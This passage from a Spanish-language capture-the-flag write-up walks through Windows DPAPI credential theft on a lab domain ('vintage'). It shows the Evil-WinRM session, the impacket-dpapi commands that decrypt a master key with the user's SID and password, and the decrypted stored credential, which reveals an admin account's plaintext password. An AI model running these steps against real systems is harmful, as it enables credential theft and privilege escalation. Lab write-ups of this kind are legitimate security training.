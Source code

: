 ~~~ bash
*Evil-WinRM* PS C:\Users\C.Neri\Documents> whoami /user 

USER INFORMATION
----------------

User Name      SID
============== ==============================================
vintage\c.neri S-1-5-21-4024337825-2033394866-2055507597-1115
~~~

Usamos el archivo de la `Master Key`, la contraseña del usuario `c.neri` y su SID para desencriptar la clave maestra que requerimos posteriormente para descifrar el archivo de credencial

~~~ bash
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
~~~

### Decrypting DPAPI Credentials

Ahora procedemos a desencriptar el archivo de credenciales para el usuario `c.neri_adm`, utilizando la clave desencriptada que acabamos de obtener

~~~ bash
impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
~~~
